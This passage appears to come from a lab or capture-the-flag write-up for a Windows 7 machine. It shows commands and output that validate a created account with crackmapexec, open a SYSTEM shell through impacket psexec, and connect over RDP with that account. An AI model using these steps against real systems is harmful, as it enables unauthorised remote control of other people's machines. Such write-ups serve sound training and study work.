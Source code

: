 Validate the user created with the tool [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec).

```
❯ crackmapexec smb 10.10.114.85 -u user123 -p user123
SMB         10.10.114.85    445    JON-PC           [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:JON-PC) (domain:Jon-PC) (signing:False) (SMBv1:True)
SMB         10.10.114.85    445    JON-PC           [+] Jon-PC\user123:user123 (Pwn3d!)
```

Connection via psexec to the user "user123".

```
❯  psexec.py WORKGROUP/user123:user123@10.10.114.85 cmd.exe
Impacket v0.9.23.dev1+20210427.174742.fc72ebad - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.114.85.....
[*] Found writable share ADMIN$
[*] Uploading file qqnDcJaw.exe
[*] Opening SVCManager on 10.10.114.85.....
[*] Creating service DuLx on 10.10.114.85.....
[*] Starting service DuLx.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system

```

----

### Connection via RDP:

```
rdesktop -u user123 -p user123 10.10.114.85
```

![rdp](/assets/imgs/blue/rdp2.png)
